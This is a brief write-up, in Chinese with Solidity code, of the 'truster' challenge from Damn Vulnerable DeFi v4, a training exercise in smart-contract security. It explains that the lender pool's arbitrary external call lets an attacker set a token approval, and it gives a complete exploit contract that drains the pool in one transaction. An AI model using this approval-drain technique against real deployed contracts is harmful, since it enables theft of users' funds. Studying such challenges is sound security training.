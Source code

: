 # Damn Vulnerable DeFi v4 - truster

- https://www.damnvulnerabledefi.xyz/challenges/truster/

## Check Condition

只能發送一筆交易：

```solidity
assertEq(vm.getNonce(player), 1, "Player executed more than one tx");
```

需要抽走 pool 的資金，並轉移至 recovery：

```solidity
assertEq(token.balanceOf(address(pool)), 0, "Pool still has tokens");

assertEq(
    token.balanceOf(recovery),
    TOKENS_IN_POOL,
    "Not enough tokens in recovery account"
);
```

## Break

主要原因是 arbitrary call：

```solidity
target.functionCall(data);
```

可以利用來設定 token approval，之後就能將資金轉出

## Solution

```solidity
contract Trigger {
    constructor(
        DamnValuableToken token,
        TrusterLenderPool pool,
        address recovery
    ) {
        // arbitary call and set approval
        pool.flashLoan(
            0,
            address(this),
            address(token),
            abi.encodeCall(IERC20.approve, (address(this), type(uint256).max))
        );
        // drain pool
        token.transferFrom(address(pool), address(this), 1_000_000e18);
        // transfer to recovery
        token.transfer(recovery, 1_000_000e18);
    }
}

// hack
Trigger instance = new Trigger(token, pool, recovery);
```
